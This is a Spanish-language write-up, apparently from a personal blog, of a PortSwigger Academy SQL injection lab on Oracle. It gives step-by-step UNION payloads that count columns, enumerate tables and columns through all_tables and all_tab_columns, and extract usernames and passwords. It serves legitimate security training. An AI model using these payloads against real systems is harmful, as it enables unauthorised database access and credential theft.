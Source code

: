 +++
author = "Alux"
title = "Portswigger Academy Learning Path: SQL Injection Lab 10"
date = "2021-11-07"
description = "Lab: SQL injection attack, listing the database contents on Oracle"
tags = [
    "sqli",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: SQL injection attack, listing the database contents on Oracle

En este <cite>laboratorio[^1]</cite>la finalidad es poder extraer los datos en una base de datos oracle que es muy distinto a como se hace en los otros gestores

## Reconocimiento

Algo a notar en las consultas al hacer union en MySQL es que al agregar un comentario se debe de agregar un espacio, como ejemplo `union select null-- ` notese el espacio al final para que el sistema pueda comentar correctamente, en otros gestores no es necesario esto pero MySQL si.

> Algo a tomar en cuenta es que al hacer la solicitud por medio del navegador si se agrega solamente un espacio este no aceptara correctamente la consulta por alguna razon por lo que habria que agregar un `-` para inyectar correctamente la consulta y contrario por medio de `repeater en burpsuite` si se puede agregar solo el espacio y sigue mostrando correctamente sin dar un error de servidor.

###  Payloads

#### Detectar columnas

```sql
Pets' order by 1-- -
Pets' order by 2-- -
Pets' order by 3-- - //Muestra error
```
### Detectar string

Por lo que se ve al imprimir datos es que las dos columnas recuperan datos string, no es necesario hacer la prueba pero siempre hacerlo cuando se dude.

```sql
Pets' union select 'test','test' from dual-- -
```
### Recuperar tablas

Ahora recuperar las tablas, en este caso vamos a buscar una tabla que contenga los usuarios, en este caso es la tabla `USERS_TMNLZU` y es la que se lista.

```sql
Pets' union select table_name,null from all_tables-- -
```
![Tablas](tablas.png)

### Recuperar columnas

Para detectar el nombre de las columnas en las tablas se inyecta la siguiente consulta, indicando la tabla de la que se quiere extraer.

```sql
Pets' union select column_name,null from all_tab_columns where table_name = 'USERS_TMNLZU'-- -
```

![Columnas de tabla USERS_TMNLZU](columnas.png)

### Extraer datos

Ahora podremos recuperar los datos teniendo el nombre de las columnas y el nombre de las tablas.

```sql
Pets' union select USERNAME_KNMULR,PASSWORD_KQXSZA from USERS_TMNLZU-- -
```

![Datos extraidos de la tabla USERS_TMNLZU](columnas.png)

Y con esto hemos resulto el lab:

![Laboratorio resuelto](resuelto.png)

Con esto ya muestra que se ha resuelto el lab.

[^1]: [Laboratorio](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)